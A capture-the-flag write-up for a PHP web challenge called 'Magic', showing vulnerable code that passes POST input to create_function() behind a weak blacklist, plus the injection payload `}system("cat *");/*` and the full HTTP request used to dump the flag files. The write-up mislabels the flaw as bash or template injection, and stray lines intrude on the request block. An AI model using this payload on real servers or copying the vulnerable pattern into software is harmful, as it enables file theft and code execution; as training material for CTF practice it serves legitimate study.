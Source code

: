 # Magic

Challenge URL: http://35.238.173.184/

We saw `admin.php` was interesting because of the PHP function below:

```php
include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $blacklist = "/mv|rm|exec/i";
    $code = $_POST['c'];
    if(strlen($code)>60) {
        die("too long to execute");
    }
    if(preg_match($blacklist,$code)){
        die("that's blocked");
    }
    $fun = create_function('$flag', $code);
    print($success);

}
```
We observed the blacklist only filtered a few commands and had no special character filters. We also tested more times, because the entire structure of the site was blind: we found out we had a 60 char limit for the payload.
Another function we noticed was `create_function('$flag', $code)`. We were allowed to inject interesting commands in `create_function()` (bash command injection).

`}system("cat *");/* ` was obtained with a template injection (https://github.com/swisskyrepo/PayloadsAllTheThings) and some attempts.
For this task we used **Burp Suite**: in _Repeater_ we put the following request:

```
?>
writeup
POST /admin.php HTTP/1.1
Host: 35.238.173.184
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://35.238.173.184
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://35.238.173.184/admin.php
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

c=}system("cat *");/* 
```

`shaktictf{p0tn714l_0f_func710n5_4r3_1nf1n173}`
